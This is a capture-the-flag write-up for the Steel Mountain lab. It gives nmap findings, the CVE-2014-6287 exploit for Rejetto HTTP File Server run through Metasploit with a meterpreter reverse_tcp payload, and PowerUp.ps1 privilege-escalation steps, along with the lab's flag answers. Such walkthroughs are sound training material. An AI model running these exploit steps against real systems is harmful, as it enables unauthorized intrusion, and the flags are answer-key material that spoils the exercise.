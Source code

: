 ![c9030a2b60bb7d1cf4fcb6e5032526d3](https://github.com/user-attachments/assets/1fccd7c7-a3e3-414c-85f9-337b55ee033d)
 
# Steel Mountain Write-Up
## TASK 1 - Introduction

Who is the employee of the month?

![Screenshot](https://github.com/user-attachments/assets/30f54f4f-514e-4272-8cc1-bfa085274d4d)

(Bill Harper)

## TASK 2 - Initial Access

Scan the machine with nmap. What is the other port running a web server on?

![Firefox_Screenshot_2025-03-26T17-56-36 928Z](https://github.com/user-attachments/assets/28807218-6b07-4918-9432-85ef064207b6)

(8080)

Take a look at the other web server. What file server is running?

Open the port 8080 and notice the file server link.

(Rejetto HTTP File Server)

What is the CVE number to exploit this file server?

When you did research on google, you can find CVE number about Rejetto HTTP File Server 2.3: https://www.exploit-db.com/exploits/39161

(2014-6287)

Use Metasploit to get an initial shell. What is the user flag?

1) msfconsole
2) search 2014-6287
3) use 0
4) show options

![Firefox_Screenshot_2025-03-26T20-44-31 403Z](https://github.com/user-attachments/assets/495e8e23-9302-487f-beeb-a6046e0f6b0f)

5) We have to set RHOSTS and RPORT

set RHOSTS $IP

set RPORT 8080

6) set payload windows/meterpreter/reverse_tcp
7) run
8) C:\Users\bill\Desktop // cat user.txt

![Firefox_Screenshot_2025-03-26T21-20-35 228Z](https://github.com/user-attachments/assets/b6350317-e3d9-4aaf-b85b-2f718cd37ddb)

(b04763b6fcf51fcd7c13abc7db4fd365)

## TASK 3 - Privilege Escalation

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

1) Download the script (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

2) Upload the script from meterpreter session

![Untitled](https://github.com/user-attachments/assets/0f37002b-a7e0-41a2-9817-594243222e8c)

3) Load powershell in meterpreter (type "load powershell" into meterpreter)

4) Type . .\Powerup.ps1

5) Type Invoke-AllChecks

![Untitled](https://github.com/user-attachments/assets/d880fac8-5106-4520-8b72-e02d993c38dd)





(AdvancedSystemCareService9)

What is the root flag?

(9af5f314f57607c00fd09803a587db80)

## TASK 4 - Access and Escalation Without Metasploit

What powershell -c command could we run to manually find out the service name? 

(powershell -c "Get-Service")



